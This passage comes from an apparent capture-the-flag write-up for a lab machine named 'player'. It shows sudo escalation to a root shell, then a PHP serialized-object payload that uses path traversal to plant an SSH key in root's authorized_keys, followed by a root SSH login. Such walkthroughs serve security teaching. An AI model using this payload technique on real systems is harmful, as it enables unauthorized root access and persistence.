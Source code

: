     telegen@player:/var/lib/playbuff$ sudo -l
    [sudo] password for telegen:
    User telegen may run the following commands on player:
        (ALL) ALL
    telegen@player:/var/lib/playbuff$ sudo bash
    root@player:/var/lib/playbuff# id
    uid=0(root) gid=0(root) groups=0(root)

### Writting SSH Key

We will use the same payload generator this time but with the ssh public key and root's authorized key path

and here is the new payload

    O:8:"playBuff":2:{s:7:"logFile";s:49:"../../../../../../../../root/.ssh/authorized_keys";s:7:"logData";s:390:"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDI3yxT+1bJnD4Er8lGjdegZ3oFv6Sv6yFZCb8LHySr3oBEdIxk1fOgz13H1Vm8pUpNepJvXh87+B+t2AsXUjLpfUmEJmS7gpbO9wYfdFz5xKClVf5Pg4NrK3P0RNSEPuWcoscpJqfdFaFmDBhoNJEff5fHo/tnUCDzPd5gsBz5GL/9xXRI/enPc2xmRvg7GtVGcUK+6oyxAz8JjAzrT0WqtkBJexndiE+H++mKjOBylTkuuAht1kMbS07MtjYT5VpNlEKkdZ0hOiX7AZlONf3AwsqoVXltZarxxQmrcKe67f72TEBcr/FQerZSR7f6QL45H+/057F9OQAPY2GT81cZ root@kali";}

After sometime We can SSH into root

    root@kali:~# ssh -i root.key root@player.htb
    Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-148-generic x86_64)

     * Documentation:  https://help.ubuntu.com/

      System information as of Fri Jan  3 19:44:19 IST 2020

      System load: 0.08               Memory usage: 7%   Processes:       171
      Usage of /:  14.5% of 17.59GB   Swap usage:   0%   Users logged in: 0

      Graph this data and manage this system at:
        https://landscape.canonical.com/

    Last login: Fri Aug 23 22:21:38 2019
    root@player:~# id
    uid=0(root) gid=0(root) groups=0(root)
